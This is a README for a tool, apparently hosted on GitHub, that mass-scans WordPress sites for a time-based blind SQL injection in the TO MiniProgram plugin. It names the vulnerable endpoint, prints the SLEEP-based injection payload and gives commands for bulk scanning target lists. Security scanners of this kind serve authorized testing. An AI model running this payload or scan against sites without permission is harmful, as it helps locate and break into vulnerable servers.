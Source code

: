 # TO MiniProgram SQLi Scanner
(https://imgur.com/a/O2JAO7D)

A specialized SQL injection scanner targeting WordPress sites with the TO MiniProgram plugin vulnerable endpoint.

## Features

- 🚀 **High-performance scanning** with multi-threading support
- 🎯 **Accurate detection** of time-based blind SQL injection vulnerabilities
- 📋 **Multiple target support** (single URL or file with URL list)
- 📊 **Clear reporting** with color-coded results
- 💾 **Automatic saving** of vulnerable targets to `vulnerable.txt`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/HackfutSec/SQLwp.git
   cd SQLwp
   ```

2. Install required dependencies:
   ```bash
   pip3 install -r requirements.txt
   ```

## Usage

### Basic scan (single target)
```bash
python3 scanner.py -u http://target-site.com -d 5
```

### Bulk scan (from file)
```bash
python3 scanner.py -l targets.txt -t 10 -d 5
```

### Options
| Option | Description | Default |
|--------|-------------|---------|
| `-u`, `--url` | Single target URL | - |
| `-l`, `--list` | File containing list of target URLs | - |
| `-d`, `--delay` | Sleep time for time-based detection (in seconds) | 5 |
| `-t`, `--threads` | Number of concurrent threads | 5 |

## Technical Details

### Vulnerability Tested
The scanner checks for SQL injection in the TO MiniProgram WordPress plugin's endpoint:
```
/wp-json/watch-life-net/v1/comment/getcomments
```

### Payload Used
The scanner sends a time-based blind SQL injection payload:
```sql
DESC,(SELECT(1)FROM(SELECT(SLEEP(5)))a)--
```

### Detection Logic
- The scanner measures response time
- If response time exceeds the specified delay, vulnerability is confirmed

## Output Example

![Sample Output](https://i.imgur.com/ABC5678.png) *Replace with actual output screenshot*

## Ethical Use

⚠️ **This tool is for authorized security testing only.**  
⚠️ **Always obtain proper authorization before scanning any website.**  
⚠️ **The maintainers are not responsible for misuse of this tool.**

## Contribution

Contributions are welcome! Please open an issue or pull request for:
- Bug fixes
- Feature enhancements
- Documentation improvements

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact

- GitHub: [@HackfutSec](https://github.com/HackfutSec)
- For security concerns: *HackfutSec404@proton.com*

---

🔒 **Happy (ethical) hacking!** 🔒
